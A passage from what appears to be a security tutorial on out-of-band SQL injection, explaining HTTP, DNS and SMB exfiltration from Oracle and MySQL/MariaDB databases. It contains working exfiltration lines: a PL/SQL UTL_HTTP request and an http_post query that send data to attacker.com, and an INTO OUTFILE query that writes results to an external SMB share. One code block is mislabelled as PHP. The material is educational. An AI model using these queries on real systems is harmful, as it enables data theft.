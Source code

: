 ```php
DECLARE
  req UTL_HTTP.REQ;
  resp UTL_HTTP.RESP;
BEGIN
  req := UTL_HTTP.BEGIN_REQUEST('http://attacker.com/exfiltrate?sensitive_data=' || sensitive_data);
  UTL_HTTP.GET_RESPONSE(req);
END;
```

Examples of Out-of-band Techniques

Out-of-band SQL injection techniques in MySQL and MariaDB can utilise various network protocols to exfiltrate data. The primary methods include DNS exfiltration, HTTP requests, and SMB shares. Each of these techniques can be applied depending on the capabilities of the MySQL/MariaDB environment and the network setup.

**HTTP Requests**

By leveraging database functions that allow HTTP requests, attackers can send sensitive data directly to a web server they control. This method exploits database functionalities that can make outbound HTTP connections. Although MySQL and MariaDB do not natively support HTTP requests, this can be done through external scripts or User Defined Functions (UDFs) if the database is configured to allow such operations.

First, the UDF needs to be created and installed to support HTTP requests. This setup is complex and usually involves additional configuration. An example query would look like `SELECT http_post('http://attacker.com/exfiltrate', sensitive_data) FROM books;`.

HTTP request exfiltration can be implemented on Windows and Linux (Ubuntu) systems, depending on the database's support for external scripts or UDFs that enable HTTP requests.

**DNS Exfiltration**&#x20;

Attackers can use SQL queries to generate DNS requests with encoded data, which is sent to a malicious DNS server controlled by the attacker. This technique bypasses HTTP-based monitoring systems and leverages the database's ability to perform DNS lookups.

As discussed above, MySQL does not natively support generating DNS requests through SQL commands alone, attackers might use other means such as custom User-Defined Functions (UDFs) or system-level scripts to perform DNS lookups.

**SMB Exfiltration**

SMB exfiltration involves writing query results to an SMB share on an external server. This technique is particularly effective in Windows environments but can also be configured in Linux systems with the right setup. an example query would look like `SELECT sensitive_data INTO OUTFILE '\\\\10.10.162.175\\logs\\out.txt';`.

This is fully supported as Windows natively supports SMB/UNC paths. Linux (Ubuntu): While direct UNC paths are more native to Windows, SMB shares can be mounted and accessed in Linux using tools like `smbclient` or by mounting the share to a local directory. Directly using UNC paths in SQL queries may require additional setup or scripts to facilitate the interaction.

Practical Example

In this practical scenario, we will demonstrate how an attacker can exfiltrate data from a vulnerable web application using an Out-of-band SQL injection technique. The server-side code contains an SQL injection vulnerability that allows an attacker to craft a payload that writes the results of a query to an external SMB share. This is useful when direct responses from the database are restricted or monitored.
